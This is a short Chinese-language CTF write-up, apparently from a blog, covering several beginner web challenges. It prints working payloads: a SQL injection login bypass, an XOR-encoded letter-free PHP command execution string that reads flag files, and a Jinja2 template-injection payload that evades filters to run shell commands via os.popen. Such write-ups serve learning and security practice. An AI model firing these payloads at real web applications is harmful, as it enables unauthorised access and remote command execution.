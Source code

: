 # 前言

打了一下，感觉是比较入门的CTF。



# E4sy Pe4sy

要`Hack admin user!`，经过尝试发现login的时候`password`存在SQL注入，可以万能密码：

```
POST /login/index.php HTTP/1.1

username=feng&password='||1=1%23&login=Login
```

万能密码登录成功即可拿到flag。



# Door Lock

事实证明国外的比赛质量也是需要考虑的。。。唉。。。。

注册登录发现有个`?id`，以为是SQL注入发现不是。。。。

原来`The door is open to all! See who is behind the admin door??`的意思就是有某个id是带flag的。。。拿bp扫出来是`?id=1766`。

# Basic Calc

无字母的rce，挺老的考点了，直接各种姿势打就行了。这里随便拿个异或打：

```
eq=(%80%80%80%80%80%80^%F3%F9%F3%F4%E5%ED)(%80%80%80%80%80%80%80^%E3%E1%F4%A0%AF%E6%AA)
```

# Breaking Bad

测试一下，应该是替换为空的waf，ban了这些感觉：

```
{{
}}
_
.
```

还有一些可能忘了，ban了.的话拿attr还有中括号即可，ban了双大括号拿`{% print %}`即可。还有一些过滤直接用引号内的十六进制绕过即可：

```
name=
{% print (lipsum|attr('\x5f\x5fglobals\x5f\x5f'))['os']['popen']('cat f*')['read']() %}
```

# Null Food Factory

不会。。。不知道是要干啥的。。。。
